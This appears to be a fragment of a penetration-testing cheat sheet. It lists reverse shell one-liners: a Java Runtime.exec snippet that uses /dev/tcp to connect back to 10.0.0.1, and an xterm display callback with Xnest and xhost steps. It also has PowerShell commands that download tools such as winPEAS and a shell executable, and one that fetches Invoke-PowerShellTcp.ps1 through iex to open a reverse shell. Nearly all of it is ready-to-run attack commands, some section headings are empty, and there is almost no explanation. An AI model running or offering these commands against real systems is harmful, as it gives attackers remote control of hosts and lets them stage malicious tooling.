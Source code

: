 ### Java Reverse Shell

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Xterm Reverse Shell

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

```bash
xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

```bash
Xnest :1

```

You’ll need to authorise the target to connect to you (command also run on your host):

```bash
xhost +targetip
```

##

## Linux

## Windows

### Transferring Files Without Metasploit

#### Powershell

Download files with powershell

```powershell
powershell -c "Invoke-WebRequest -uri 'http://Your-IP:Your-Port/winPEAS.bat' -OutFile 'C:\Windows\Temp\winPEAS.bat'"
```

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
```
